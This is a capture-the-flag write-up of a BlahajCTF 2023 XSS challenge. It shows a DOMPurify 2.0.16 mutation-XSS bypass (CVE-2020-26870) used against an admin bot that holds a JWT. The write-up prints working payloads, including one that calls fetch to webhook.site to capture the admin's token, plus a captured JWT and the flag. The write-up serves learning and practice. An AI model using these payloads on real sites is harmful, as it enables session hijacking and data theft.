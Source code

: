 ```yaml
---
title: eXample Sending Service
date: 2023-12-05
tags:
- web
- xss
categories: BlahajCTF 2023
---
```


> As part of Halogen's cybersecurity exam, Blahaj has to get the flag only accessible by the administrator. But Blahaj cannot even type with his flippers, help him pass!

**Disclaimer: We did not solve the challenge but we were like 3 micrometers away from solving it**

This is another XSS Challenge where you send a message and the admin bot reads the message and sets a header that contains the admin jwt, which can be used to access `/flag`:

{% ccb caption:admin.js gutter1:10-29 lang:js %}
// Just your typical admin bot that reads the message
async function notify(msg) {
    // Launch the browser and open a new blank page
    const browser = await puppeteer.launch({
        args: [
            '--no-sandbox',
            '--disable-setuid-sandbox'
        ]
    });
    const page = await browser.newPage();

    // Navigate the page to a URL
    page.setExtraHTTPHeaders({
        'Authorization': 'Bearer ' + jwt.sign({
            message: msg,
            username: "admin"
        }, flag)
    });
    await page.goto('http://localhost:3000/read');
}
{% endccb %}

This XSS, however, requires a DOMPurify CVE:

{% ccb caption:app.js gutter1:36-40 lang:js %}
    const message = {
        name: DOMPurify.sanitize(req.body['name']),
        title: DOMPurify.sanitize(req.body['title']),
        body: DOMPurify.sanitize(req.body['message']),
    }
{% endccb %}

DOMPurify CVE Links:
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://portswigger.net/daily-swig/dompurify-mutation-xss-bypass-achieved-through-mathml-namespace-confusion
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26870

This is because in the `package.json`, dompurify is only v2.0.16
{% ccb caption:package.json gutter1:11-12 lang:json %}
  "dependencies": {
    "dompurify": "^2.0.16",
{% endccb %}

So we can construct an XSS payload that works locally!

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
{% endccb %}

This would be enough to solve the challenge. However I am dumb:

When I tried testing around some javascript to xss into my https://webhook.site, I realized some of them was being caught by DOMPurify. So I decided to use [JSFuck](https://jsfuck.com/) to encode my payload, but while my XSS worked locally, it did not work on the admin, which lead me to spend most of time searching for how to circumvent this "check". However, it turns out that it was probably because my payload of jsfuck was just too big, so none of the payloads worked. If I did not encrypt my payload into JSFuck and just did something like:

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=fetch('https://webhook.site')&gt;">
{% endccb %}

I would have received the admin jwt:
{% ccb wrapped:true %}
Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJtZXNzYWdlIjp7Im5hbWUiOiJhIiwidGl0bGUiOiJhIiwiYm9keSI6IjxtYXRoPjxtdGV4dD48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPVwiLS0-PC9tZ2x5cGg-PGltZ1x0c3JjPTFcdG9uZXJyb3I9ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2Q3ZWU3ODZhLTgwODQtNDM3Ny05OGFiLWZkZDU1MmFiMmQ0ZicpPlwiPlxuPC9tZ2x5cGg-PHRhYmxlPjwvdGFibGU-PC9tdGV4dD48L21hdGg-In0sInVzZXJuYW1lIjoiYWRtaW4iLCJpYXQiOjE3MDE3NjA0MzR9.VZl-aNmRsB4bEPIvdffdS6Rl9DcxLWYkLT5ZORvGAvg 
{% endccb %}

and could have gone on to get the flag: `blahaj{d1d_y0u_f0rg0r_t0_upd4t3?}`
